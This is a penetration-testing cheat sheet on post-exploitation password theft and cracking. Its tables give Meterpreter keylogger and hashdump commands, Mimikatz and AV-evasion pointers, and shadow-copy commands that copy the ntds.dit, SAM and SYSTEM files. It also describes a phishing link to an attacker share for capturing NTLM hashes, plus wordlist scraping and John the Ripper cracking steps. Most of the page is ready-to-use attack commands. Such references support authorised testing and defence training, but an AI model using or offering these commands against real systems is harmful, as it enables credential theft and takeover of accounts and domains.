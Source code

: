 ```yaml
---
title: Obtaining and Cracking Passwords
category: Post-Exploitation
order: 6
---
```


> **Windows** 

Metasploit Key logger for passwords | keyscan_start, keyscan_stop, keyscan_dump
PwDump | Pwdump drops files to disk and caught by AV <br> http://www.tarasco.org/security/pwdump_7/
Fgdump | fgdump drops files to disk and caught by AV <br> Source available to evade AV <br> http://foofus.net/goons/fizzgig/fgdump/downloads.htm#previous-version
Metasploit hashdump | meterpreter > hashdump (from memory) <br> meterpreter > run hashdump (hash and syskey from registry)
Mimikatz |  https://www.offensive-security.com/metasploit-unleashed/Mimikatz/ <br> https://www.christophertruncer.com/golden-ticket-generation/ <br> http://blog.opensecurityresearch.com/2012/06/using-mimikatz-to-dump-passwords.html <br> http://carnal0wnage.attackresearch.com/2013/10/dumping-domains-worth-of-passwords-with.html
Volume Shadow Copy Service (domain controller) |  Obtain from : <br> https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs <br> https://github.com/MarkBaggett/MarkBaggett/blob/master/vssown.py  <br> <code> > cscript vssown.vbs /status or /start or /create /c <br> > copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\ntds\ntds.dit ntdsbackup.dit <br> > copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SYSTEM systembackup.bak <br> > copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SAM sambackup.bak <br> Analyze with http://csabarta.com/downloads/ntds_dump_hash.zip
Sniff (Kannan, ntlm, ms kerberos) | E-mail with link: <br> file://[AttackerIP]/[AttackerShare] <br> Sniff the traffic between victim and client for challenge and response"

> **Linux**

/etc/passwd and /etc/shadow

> **Password Lists**

Password Lists in Kali | /usr/share/wordlists/
Tailor Password list to policy | <code> > pw-inspector [-i FILE] [-o FILE] [-m MINLEN] [-M MAXLEN] [-c MINSETS] -l -u -n -p –s  <br> > pw-inspector -i /usr/share/wordlists/nmap.lst -o /root/passes.txt -m 6 -M 1 </code>
Combine Word Lists | <code> > cat wordlist.txt <wordlist2.txt....> | sort | uniq > dictionary.txt </code>
Word List from Website | <code> > mkdir /tmp/source <br> > cd /tmp/source <br> > wget -r -l [Page Depth] [target_website] <br> > cd .. <br> grep -h -r """" source | tr '[:space:]' '\n' | sort | uniq >wordlist.lst <br> > grep -v '<' wordlist.lst > newlist.lst </code>
Password Lists | https://downloads.skullsecurity.org/passwords/


>**John**

View Cracked Passwords | ./john --show [password file]
Pause a session | CTRL-C
Kill a session | CTRL-C twice quickly
Restore a session | ./john --restore
Current Status | any key
Customize Session based on password policy (e.g., length) | edit john.conf (Linux) and john.ini (windows)
Combine Shadow and passwd | ./unshadow passwd_copy shadow_copy > combined.txt
Password length - Customization | MinLen and MaxLen

> **Tools**

Rainbow Tables | Ophcrack <br> http://project-rainbowcrack.com <br> http://souceforce.net/projects/ophcrack <br> http://lasecwww.epfl.ch/~oechslin/projects/ophcrack
GPU | MD5 Cracker: http://bvernoux.free.fr/md5/index.php <br> oclHashcat  and Hashcat (same project) <br> CUDA-multiforcer <br> aircrack-ng-CUDA <br> pyrit (WPA and WPA w/ CoWPAtty)
CPU | John and Cain

